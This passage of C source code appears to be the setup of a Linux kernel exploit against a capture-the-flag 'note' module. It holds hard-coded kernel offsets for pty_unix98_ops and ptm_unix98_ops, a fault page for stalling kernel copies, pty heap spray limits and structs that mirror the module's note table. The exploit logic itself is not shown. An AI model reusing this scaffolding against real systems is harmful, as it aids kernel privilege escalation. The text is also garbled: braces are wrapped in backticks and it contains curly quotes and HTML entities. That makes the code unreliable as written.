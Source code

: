 const uint64_t v_pty_unix98_ops = 0xFFFFFFFF81E8E320;

const uint64_t kOffset_pty_unix98_ops = 0xe8e320;

const uint64_t kOffset_ptm_unix98_ops = 0xe8e440;

​

#define FAULT_PAGE 0x41410000

#define TARGET_SIZE 0x2e0

#define SUPER_BIG 0x2000

#define MAX_PTY_SPRAY 64

#define MAX_CATCHERS 8

​

char* stuck_forever = (char*)(FAULT_PAGE);

int fd;

char buffer[4096];

​

static void hexdump(void* data, size_t size) `{`

  unsigned char* _data = data;

  for (size_t i = 0; i &lt; size; i++) `{`

    if (i &amp;&amp; i % 16 == 0) putchar(‘\n’);

    printf(“%02x “, _data[i]);

  `}`

  putchar(‘\n’);

`}`

​

struct note_userarg `{`

  uint64_t idx;

  uint64_t size;

  char *buf;

`}`;

​

struct k_note `{`

  uint64_t mem;

  uint64_t size;

`}` note_in_kernel[16];
